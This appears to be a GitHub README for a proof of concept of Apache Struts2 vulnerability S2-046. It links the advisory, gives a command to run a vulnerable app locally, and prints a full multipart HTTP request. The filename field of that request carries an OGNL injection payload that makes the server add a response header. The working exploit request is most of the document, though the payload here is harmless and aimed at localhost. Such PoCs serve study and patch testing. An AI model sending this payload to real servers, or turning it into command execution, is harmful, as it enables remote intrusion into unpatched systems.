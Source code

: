 # S2-046-PoC

Security Bulletin:
https://cwiki.apache.org/confluence/display/WW/S2-046

More info:
https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#.WNAr_RLyvpR

Start vulnerable application with:
```
mvn jetty:run
```

Sample request:
```
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 1000000000
Cache-Control: max-age=0
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://localhost:8080/doUpload
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close

------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain


foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--
```
